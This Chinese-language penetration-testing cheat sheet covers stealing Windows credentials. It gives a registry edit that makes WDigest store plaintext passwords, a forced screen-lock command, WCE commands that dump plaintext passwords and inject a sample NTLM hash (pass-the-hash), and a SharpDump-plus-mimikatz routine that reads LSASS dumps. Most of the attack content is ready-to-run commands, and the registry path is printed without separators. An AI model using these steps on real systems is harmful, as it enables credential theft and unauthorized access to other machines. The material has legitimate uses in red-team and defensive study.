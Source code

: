  **Server 2012 抓取明文密码：**

> 手工修改注册表 + 强制锁屏 + 等待目标系统管理员重新登录+导出Hash+本地mimikatz抓明文

```bash
#修改注册表来让Wdigest Auth保存明文口令
reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

#恢复
reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

强制锁屏

```bash
rundll32.exe user32.dll,LockWorkStation
```

## WCE抓明文密码

 **WCE**会被杀软干掉

```bash
#抓系统管理员明文密码
wce.exe -w

#抓hash，列出登录的会话和NTLM凭据
wce.exe -l

#重点，在无法破解目标hash明文的情况下可用hash注入
wce.exe -s 目标用户名:目标域名或IP:LM-HASH:NT-HASH
wce.exe -s Administrator:192.168.2.130:F0D412BD764FFE81AAD3B435B51404EE:209C6174DA490CAEB422F3FA5A7AE634
```

> hash注入的原理是，将我们预备好的目标机器的本地或者是域用户hash注入到本地的认证进程`lsass.exe`中去
>
> 使得本地在使用`ipc`登录目标机器的时候就如同自己登录自己的机器一样获得权限
>
> 需要支持受限管理员模式，Server 2012-r2后默认支持受限管理员模式

## 导出NTML Hash

### Sharpdump+ mimikatz本地读取

需要.NET 3.5版本框架，需要系统管理员权限

下载地址：https://github.com/GhostPack/SharpDump 

Dump 的文件默认是 bin 后缀，拖到本地机器把 bin 重命名为 zip，然后解压出来再丢给 mimikatz

```bash
mimikatz.exe “sekurlsa::minidump debug45” “sekurlsa::logonPasswords full” “exit”
```
